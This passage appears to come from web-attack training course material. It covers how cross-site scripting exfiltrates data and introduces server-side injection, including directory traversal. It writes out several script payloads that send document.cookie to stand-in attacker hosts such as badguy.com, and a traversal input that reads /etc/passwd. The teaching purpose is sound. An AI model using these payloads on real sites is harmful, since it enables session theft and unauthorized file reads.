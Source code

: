 Once an attacker has valuable information, he or she has to then exfiltrate the data to some
external website or listener so it can be recovered. There are many ways to do this. A simple way
might be simply to redirect the user using something such as
<script>document.location="http://badguy.com/?" + document.cookie;</script>. Other techniques
could be to add an image to the webpage that exfiltrates the data in the URL of the image request or
adding an iframe to do the same. AJAX may also be useful as an exfil mechanism, but most modern
browsers have protection against this via CORS protection. Additionally, in 2012, Content Security
Policy was introduced to protect against XSS and other forms of client injection. While CSP is widely
adopted across modern browsers, it is up to the web developer to properly implement safe policies.

Some examples of redirecting with Javascript components:

```
NOTE The following examples essentially do the same thing
```
```
<script>document.location="http://OP-Station-IP:OPS-PORT/?username=" +
document.cookie;</script>
<script>window.location.href="http://website/?"+document.cookie;</script>
```

```
<script>write.location.href="http://10.50.20.97"</script>
```
_Resources:_

- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
- https://en.wikipedia.org/wiki/Content_Security_Policy


**Server-Side Injection (URL, Upload)**

**OUTCOME** : This section of facilitation introduces the students to the concepts required for skills
skill11 and skill12. Students will be able to identify and leverage unsanitized input that is handled
in server land as it pertains to URLs, command execution, and file uploads.

**Techniques For Server-Side Injection**

- While XSS is an injection technique that targets the client browser of a visitor for execution,
    there are other techniques that target components of the server. In all instances of these latter
    techniques, the server receives input from the user and executes it in the server-side before
    returning HTML to the user. If that input is not properly sanitized, it can be used to trigger
    unintended consequences. Some common examples of server-side injections include directory
    traversal, command injection, malicious file upload, and SQL injections (SQLI). In this section,
    we will cover the first three.

_Directory Traversal:_

- Directory traversal vulnerabilities exist when an attacker is able to read files on a web server
    that are outside of the intended scope by the developers. More generally, directory traversal
    gives an attacker arbitrary read of any file that the web server process has read permission for.
    This type of vulnerability often occurs in the part of the server that fetches a resource and
    returns it to the user. This type of vulnerability can manifest in server software such as Apache,
    IIS, or Nginx, but also in the web applications written in server-side languages as well.
- Imagine a website that allows users to upload and then fetch pictures. Let’s say the pictures are
    stored in a separate directory isolated from the primary server (such as a file server) and one of
    the web pages provides a method to return files by name.
       ◦ Say view_image.php receives filenames via a "file" GET parameter such as
          view_image.php?file=logo.png. This page then takes that parameter, and without doing any
          checks on the value, concatenates it with the path "/data/uploads/" and then returns it to the
          user. That is, the final path is "/data/uploads/" + "logo.png".
       ◦ A malicious actor could use the lack of sanitization in the file read to access any file on the
          server that is readable by the server process. For example, on a unix-like system,
          view_image.php?file=../../etc/passwd would return the passwd file back, because
          /data/uploads/../../etc/passwd becomes just /etc/passwd. Arbitrary file reads like this can
          also be used to leak the server-side source code and hunt for further vulnerabilities in other